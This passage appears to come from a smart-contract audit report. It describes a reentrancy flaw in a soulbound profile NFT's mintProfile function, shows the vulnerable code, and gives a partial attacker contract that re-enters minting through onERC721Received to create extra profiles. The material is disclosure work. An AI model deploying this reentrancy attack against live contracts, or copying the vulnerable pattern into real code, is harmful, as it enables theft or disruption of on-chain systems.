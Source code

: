 ```
<summary> SoulboundProfileNFT::mintProfile file.</summary>

```javascript
   /// @notice Mint a soulbound NFT representing the user's profile.
    function mintProfile(string memory name, uint8 age, string memory profileImage) external {
        require(profileToToken[msg.sender] == 0, "Profile already exists");

        uint256 tokenId = ++_nextTokenId;
        // minting done first
@>      _safeMint(msg.sender, tokenId);

        // Store metadata on-chain
        // on-chain storage done here
        _profiles[tokenId] = Profile(name, age, profileImage);
        profileToToken[msg.sender] = tokenId;

        emit ProfileMinted(msg.sender, tokenId, name, age, profileImage);
    }
```
</details>

A user can misuse the contract by creating multiple profiles as many times as they want potentially **DoS**-ing the contract.

#### Proof Of Code

An attacker craetes a contract to exploit this vulnerability. Since the `SoulboundProfileNFT` uses `_safeMint`, which calls `onERC721Received` on the recipient if the recipient is a contract. This can be exploited by "recursively" called as many times as the attacker wants.

**IMPORTANT** Note the console log statement in the Attacker contract

<details>
<summary> Attack contract code.</summary>

```javascript
contract ReentrancyAttack {
    SoulboundProfileNFT public target;
    string public s_name = "EvilUser";
    uint8 public s_age = 99;
    string public s_image = "ipfs://malicious";

    uint256 public reentryCount;
    uint256 public maxReentries = 3; // To limit attack loop

    constructor(address _target) {
        target = SoulboundProfileNFT(_target);
    }

    function attack() external {
        s_name = string(abi.encodePacked(s_name, (reentryCount)));
        target.mintProfile(s_name, s_age, s_image);
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external returns (bytes4) {
        reentryCount++;
        console.log("REENTRY COUNT:", reentryCount);
        if (reentryCount < maxReentries) {
            target.mintProfile(s_name, s_age, s_image);
        }

```